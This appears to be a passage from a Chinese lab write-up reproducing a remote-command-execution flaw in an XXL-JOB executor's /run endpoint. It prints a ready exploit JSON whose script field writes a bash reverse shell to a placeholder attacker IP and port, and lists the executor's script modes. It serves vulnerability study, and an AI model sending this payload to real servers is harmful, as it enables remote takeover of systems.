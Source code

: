 看到如上图，说明漏洞环境部署成功。

**管理端**

浏览器访问`http://<your-ip>:8080`

![Untitled](image/Untitled%201.png)

## 0x05 漏洞复现

浏览器访问`http://<your-ip>:9999/run`，同时使用`BurpSuite`进行抓包。

修改请求方式为POST，并写入EXP代码，然后放包。

**exp格式解释**

```
exp：
{
  "jobId": 1,                                           # 任务ID
  "executorHandler": "demoJobHandler",                  # 任务标识
  "executorParams": "demoJobHandler",                   # 任务参数
  "executorBlockStrategy": "COVER_EARLY",               # 任务阻塞时间
  "executorTimeout": 0,                                 # 任务超时时间
  "logId": 1,                                           # 本次调度日志ID
  "logDateTime": 1586629003729,                         # 本次调度日志时间
  "glueType": "GLUE_SHELL",                             # 任务模式
  "glueSource": "echo 'bash -i >& /dev/tcp/<攻击者IP>/<攻击者的监听端口> 0>&1' > /tmp/1.sh",   # 任务脚本代码
  "glueUpdatetime": 1586699003758,                      # GLUE脚本更新时间，用于判定脚本是否变更以及是否需要刷新
  "broadcastIndex": 0,                                  # 分片参数：当前分片
  "broadcastTotal": 0                                   # 分片参数：总分片
}
```

其中的任务模式 `glueType`，有下面几种：

```
BEAN("BEAN", false, null, null),
GLUE_GROOVY("GLUE(Java)", false, null, null),
GLUE_SHELL("GLUE(Shell)", true, "bash", ".sh"),
GLUE_PYTHON("GLUE(Python)", true, "python", ".py"),
GLUE_PHP("GLUE(PHP)", true, "php", ".php"),
GLUE_NODEJS("GLUE(Nodejs)", true, "node", ".js"),
GLUE_POWERSHELL("GLUE(PowerShell)", true, "powershell", ".ps1");
```
